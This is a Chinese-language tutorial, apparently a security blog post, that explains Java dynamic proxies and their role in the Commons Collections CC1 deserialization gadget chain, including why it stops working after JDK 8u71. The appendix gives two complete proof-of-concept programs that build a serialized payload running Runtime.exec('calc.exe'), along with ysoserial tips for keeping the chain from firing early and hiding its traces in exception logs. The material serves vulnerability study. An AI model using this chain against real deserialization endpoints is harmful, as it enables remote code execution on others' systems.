这段PHP代码演示了`__call`魔术方法的作用，通过该方法可以动态的调用方法。而在Java中，动态代理也可以起到类似的作用，动态代理是一种设计模式，它允许在运行时创建代理对象，以便在方法调用前后添加额外的逻辑，比如日志记录、事务管理和权限控制等。Java 的动态代理机制主要依赖于 `java.lang.reflect.Proxy` 类和 `java.lang.reflect.InvocationHandler` 接口：

1. `java.lang.reflect.Proxy`

`Proxy` 类提供了用于创建动态代理类和实例的静态方法。

2. `java.lang.reflect.InvocationHandler`

`InvocationHandler` 接口定义了 `invoke` 方法，用于在代理实例上处理方法调用。

下面是简单的示例代码

```java
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.util.Map;
public class ExampleInvocationHandler implements InvocationHandler {
    protected Map map;
    public ExampleInvocationHandler(Map map) {
        this.map = map;
    }
    @Override
    public Object invoke(Object proxy, Method method, Object[] args) throws
            Throwable {
        if (method.getName().compareTo("get") == 0) {
            System.out.println("Hook method: " + method.getName());
            return "Hacked Object";
        }
        return method.invoke(this.map, args);
    }
}
```

ExampleInvocationHandler实现了Invocationhandler的invoke方法，作用是在监控调用的方法名是get的时候，返回一 个特殊字符串 Hacked Object 。

```java
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;
public class App {
    public static void main(String[] args) throws Exception {
        InvocationHandler handler = new ExampleInvocationHandler(new
                HashMap());
        // Proxy.newProxyInstance 的第一个参数是ClassLoader，我们用默认的即可；
        // 第二个参数是我们需要代理的对象集合,代理对象要实现的接口列表。动态代理只能实现接口，不能直接代理类。如果要代理一个类，必须使用接口。
        // 第三个参数是一个实现了InvocationHandler接口的对象，里面包含了具体代理的逻辑。
        Map proxyMap = (Map)
                Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class},
                        handler);
        proxyMap.put("hello", "world");
        String result = (String) proxyMap.get("hello");
        System.out.println(result);
    }
}
```

运行App类，发现`String result = (String) proxyMap.get("hello");`获取的字符串不是 “world”而是"Hacked Object"。

##### 利用AnnotationInvocationHandler#invoke触发漏洞

由于AnnotationInvocationHandler实现了InvocationHandler接口，而且刚好其invoke方法中有对Map的put操作，可以触发漏洞，所以我们通过动态代理LazyMap，让AnnotationInvocationHandler#invoke作为LazyMap的动态代理处理器，当任意的代码调用proxyMap的所代理的方法时，动态代理将拦截该方法并调用AnnotationInvocationHandler#invoke，从而触发漏洞。

```java
// ......
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
construct.setAccessible(true);
InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);
Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);
// 这几行代码，类似于示例中的InvocationHandler handler = new ExampleInvocationHandler(new HashMap());Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);
// 创建了代理实例，这里不是AnnotationInvocationHandler也可以，可以是任何实现了InvocationHandler、接口且在invoke方法中调用了Map.get的类，示例代码见附录代码片段1

handler = (InvocationHandler) construct.newInstance(Retention.class, proxyMap);
// 代理后的对象叫做proxyMap，但我们不能直接对其进行序列化，因为我们入口点是sun.reflect.annotation.AnnotationInvocationHandler#readObject ，所以我们还需要再用AnnotationInvocationHandler对这个proxyMap进行包裹，也可以不使用AnnotationInvocationHandler，任何在构造函数可以传入proxyMap且readObject中调用proxyMap的方法的类都可以，示例代码见附录代码片段2
```

我们再回头看AnnotationInvocationHandler的readObject方法，这里的memberValues即是proxyMap，其调用entrySet方法被动态代理拦截



#### LazyMap在8u71以后仍不能利用

前面分析过，在8u71以后，CC1无法发挥作用的原因之一是不再直接 使用反序列化得到的Map对象，而是新建了一个LinkedHashMap对象，原来Map的键值对也通过fields.get获取

```diff
+        ObjectInputStream.GetField fields = s.readFields();
+
+        @SuppressWarnings("unchecked")
+        Class<? extends Annotation> t = (Class<? extends Annotation>)fields.get("type", null);
+        @SuppressWarnings("unchecked")
+        Map<String, Object> streamVals = (Map<String, Object>)fields.get("memberValues", null);
```

我们精心构造的Map不再执行一些操作，自然也不会触发漏洞。对于才有LazyMap的CC1来说，其触发需要对精心构造的Map调用任意方法，这里没有调用原来Map的任何方法，自然不会触发漏洞。

### 附录

#### 代码片段

代码1

```java
// 动态代理处理器
import java.io.Serializable;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.util.Map;

public class LazyMapInvocationHandler implements InvocationHandler, Serializable {
    protected Map map;
    public LazyMapInvocationHandler(Map map) {
        this.map = map;
    }
    @Override
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
        map.get("test");
        return null;
    }
}


import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class YsoCC1ChangeProxy {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class,
                        Object[].class }, new Object[] { null, new
                        Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class
                },
                        new String[] { "calc.exe" }),
        };
        Transformer transformerChain = new
                ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        Class clazz =
                Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class,
                Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = new LazyMapInvocationHandler(outerMap);
        Map proxyMap = (Map)
                Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class},
                        handler);
        handler = (InvocationHandler)
                construct.newInstance(Retention.class, proxyMap);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new
                ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

代码2

```java
// readObject为入口点
import java.io.IOException;
import java.io.Serializable;
import java.util.Map;

public class EntryPoint implements Serializable {
    protected Map map;
    public EntryPoint(Map map){
        this.map = map;
    }
    private void readObject(java.io.ObjectInputStream s) throws IOException, ClassNotFoundException {
        s.defaultReadObject();
        System.out.println(map.values());
    }
}

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class YsoCC1ChangeEntryPoint {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class,
                        Object[].class }, new Object[] { null, new
                        Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class
                },
                        new String[] { "calc.exe" }),
        };
        Transformer transformerChain = new
                ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        Class clazz =
                Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class,
                Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)
                construct.newInstance(Retention.class, outerMap);
        Map proxyMap = (Map)
                Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class},
                        handler);
        EntryPoint entryPoint = new EntryPoint(proxyMap);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(entryPoint);
        oos.close();
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new
                ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

#### 关于ysoserial的一些其他操作

* 我们的poc在调试时可能弹出多个计算机，在使用Proxy代理了map对象后，我们在任何地方执行map的方法就会触发Payload弹出计算器，所 以，在本地调试代码的时候，因为调试器会在下面调用一些toString之类的方法，导致不经意间触发了命令。ysoserial对此有一些处理，它在POC的最后才将执行命令的Transformer数组设置到transformerChain 中，原因是避免本地生成序列化流的程序执行到命令。
* ysoserial中的Transformer数组，为什么最后会增加一个 ConstantTransformer(1)：可能是为了隐藏异常日志中的一些信息。如果这里没有 ConstantTransformer，命令进程对象将会被 LazyMap#get 返回，导致我们在异常信息里能看到ProcessImpl的特征

#### 参考资料

* 
